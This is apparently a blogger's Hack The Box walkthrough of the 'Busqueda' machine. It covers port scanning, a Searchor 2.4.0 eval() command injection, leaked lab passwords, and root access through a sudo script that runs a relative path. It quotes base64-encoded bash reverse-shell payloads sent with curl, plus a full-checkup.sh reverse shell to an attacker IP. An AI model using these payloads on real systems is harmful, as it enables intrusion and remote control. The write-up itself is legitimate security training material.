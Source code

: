 # HTB - Busqueda

#### Ip: 10.10.11.208
#### Name: Busqueda
#### Rating: Easy

----------------------------------------------------------------------

Busqueda.png


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Busqueda]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.208 -sC -sV 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-01 10:06 CST
Nmap scan report for 10.10.11.208
Host is up (0.074s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.54 seconds
```

We can see the site is attempting to redirect to http://searcher.htb/ so lets add that to our `/etc/hosts` file.


Navigating to the site on port 80 we find a page with search functionality:

busqueda_site.png

At the bottom of the page we see it is running Flask as well as Searchor 2.4.0:

busqueda_version.png

Looking for exploits for searcher 2.4.0 we find this GitHub feauturing a bash arbitrary code injection exploit:

https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

Per the GitHub ReadMe we see it is specifically exploiting the function call `eval()` in which it is able to execute system commands:

```python
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = eval( # <<< See here 
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
        click.echo(url)
        searchor.history.update(engine, query, url)
        if open:
            click.echo("opening browser...")
	  ...
```

The script injects:
```bash
rev_shell_b64=$(echo -ne "bash  -c 'bash -i >& /dev/tcp/$2/${port} 0>&1'" | base64)
evil_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i'))
```

Into the function via a POST request using CURL:
```bash
curl -s -X POST $1/search -d "engine=Google&query=${evil_cmd}" 1> /dev/null
```

### Exploitation

We can exploit this vulnerability with the exploit script with no changes needed to the code:

busqueda_shell.png

getting a shell back as user svc.

We are now able to grab the user.txt flag:

busqueda_user.png

### Privilege Escalation

Looking more closely at the svc home folder we find a .gitconfig file:

```
svc@busqueda:~$ cat .gitconfig
cat .gitconfig
[user]
	email = cody@searcher.htb
	name = cody
[core]
	hooksPath = no-hooks
```

Lets hang onto this info and keep enumerating.

After loading up and running linpeas.sh to help enumerate a privilege escalation vector, we notice there is a gitea vhost running that was missed during enumeration. Lets add that to `/etc/hosts` and check it out:

```
10.10.11.208    searcher.htb gitea.searcher.htb
```

Heading to the gitea site we find a sign-in button:

busqueda_gitea.png

This seems like progress, but we still don't have a password for cody.

Going back to my shell for further enumeration I find a .git file in `/var/www/app` that has a config file containing cody's password:

busqueda_password.png

cody:jh1usoih2bkjaspwe92

Armed with this password lets see if we can use it to run `sudo -l` to check if we can run anything with elevated permissions:

```text
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

We are unable to read this script:
```text
svc@busqueda:/var/www/app/.git$ cat /opt/scripts/system-checkup.py
cat: /opt/scripts/system-checkup.py: Permission denied
```
But trying to run it to read a file normally prohibted to lower level users gets us this error:
```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py /etc/shadow

Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

We can view the docker containers:
```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps  
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS             PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   13 months ago   Up About an hour   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   13 months ago   Up About an hour   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Lets inspect the gitea container. To do that we'll also need to declare the format:
```
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```
I had to reference the docker docs (ha) for this. I am super bad with Docker and it is definitely something I need to learn more about:

busqueda_docker_docs.png

```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' gitea

--format={"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

Nice! Looks like we've discovered another credential: yuiu1hoiu4i5ho1uh

We can use this to succesfully log into the gitea site as the administrator:

busqueda_login.png

Taking a look at the sytem-checkup.py file we see it also is executing the full-checkup.sh file in `/opt/scripts`

```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
```
Because this doesn't contain the full path for full-checkup.sh, we may be able to create our own malicious file calle full-checkup.sh, and execute it using our sudo permissions.

Lets create a file called full-checkup.sh containing a bash reverse shell:
```bash
#! /bin/bash
bash -i >& /dev/tcp/10.10.14.60/4444 0>&1
```

We can make it executable with:
```bash
chmod +x full-checkup.sh
```

And finally we can set up a nc listener, and execute it using our sudo permissions:

```text
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

This catches us a shell back as root and we can grab the final flag:

busqueda_root.png

Thanks for folllowing along!

-Ryan





